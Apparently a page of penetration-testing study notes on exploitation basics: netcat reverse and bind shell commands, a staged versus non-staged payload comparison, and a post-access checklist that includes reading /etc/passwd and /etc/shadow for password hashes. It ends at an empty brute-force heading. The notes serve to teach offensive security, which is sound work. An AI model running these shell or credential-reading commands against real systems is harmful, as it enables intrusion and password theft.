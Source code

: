 # Exploitation Basics

## 1. Shell

**Reverse Shell** : The target connects to the attacker.

**Bind Shell** : The attacker connects to the target.

### 1.1. Reverse Shell

!!! danger "Example"
    === "Attacker"

        ```sh
        nc -nvlp 4444
        ```

    === "Target"

        ```sh
        nc <attacker IP> 4444 -e /bin/sh
        ```

### 1.2. Bind Shell

!!! danger "Example"
    === "Attacker"

        ```sh
        nc <target IP> 4444
        ```

    === "Target"

        ```sh
        nc -nvlp 4444 -e /bin/sh
        ```

## 2. Payloads

**Non-staged**|**Staged**
:-:|:-:
Sends exploit shellcode all at once|Sends payload in stages
Larger in size and won't always work|Can be less stable
Example: windows/meterpreter`_`reverse_tcp|Example: windows/meterpreter`/`reverse_tcp

## 3. Basic commands once we have access to the machine

- Try to find the IP(s) of the machine
- Check the arp table / route
- Check the sudo privileges
- Check the `/etc/passwd` file in order to see the different users of the machine (from 500)
- Check the `/etc/shadow` file in order to see the password hashes.

## 4. Brute Force Attacks
